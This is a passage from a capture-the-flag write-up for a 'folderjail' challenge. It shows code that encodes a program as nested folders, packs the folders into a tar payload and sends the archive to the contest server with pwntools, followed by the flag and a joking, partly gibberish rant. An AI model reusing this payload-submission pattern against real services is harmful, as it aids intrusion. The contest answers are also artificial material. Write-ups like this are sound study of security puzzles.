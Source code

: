 ```python
        os.mkdir(f"gen/{i}/hex1/{j}")
        if d == "1":
            os.mkdir(f"gen/{i}/hex1/{j}/1")

    for j in range(len(b)):
        d = b[j]
        os.mkdir(f"gen/{i}/hex2/{j}")
        if d == "1":
            os.mkdir(f"gen/{i}/hex2/{j}/1")
```
Then we took the HelloWorld example from the Python library github and replaced the contents of "New Folder/New folder (2)/New Folder (3)" with the folders we generated.

Create the tar file with ```tar -czf payload.tar.gz .```

Finally we submit the tar file to the server with this script:
```python
from pwn import *

def read_file_as_hex(file_path):
    try:
        with open(file_path, "rb") as file:
            return file.read().hex()
    except FileNotFoundError:
        print(f"Error: File '{file_path}' not found.")

file_path = "lol.tar.gz"
hex = read_file_as_hex(file_path)

conn = remote('chals.4.cursedc.tf',32001)
conn.recvuntil(b'>')
conn.send(hex)
conn.interactive()
```

Initially I tried sending with netcat but that complained about unexpected EOF at 4096 which is some kind of terminal limitation.

Running the script:
```bash
$ python lol.py
[+] Opening connection to chals.4.cursedc.tf on port 32001: Done
/home/chieftan/ctf/cursedctf24/folderjail/lol.py:20: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  conn.send(hex)
[*] Switching to interactive mode
 $
$

cursed{i_4ctually_H8_h4ck_th3_BOX}

No, seriously, this isn't a joke. Hack the Box kidnapped my family. They stole my Crocs. I hate them.

Because of Hack the Box, my bike brake broke and I almost died. Because of Hack the Box, I was banned from my favorite pub. Because of Hack the Box, Elon Musk banned me from Xitter.

Thank you Hack the Box for giving me a $15 Giftcard. I will be sure to use this gift card to purchase a shirt that is not overpriced in any way.

Hack The Box is a Great Place to Study Cybersecurity and Learn about offensive Hacking and cyberfsecurity of the securting cyber cybe fcy e rbc yebrf shas theo ahck the box hjajklfndsob tose hosd thuos pdohbvsodufhbnsdop;fbhno
[*] Got EOF while reading in interactive
```
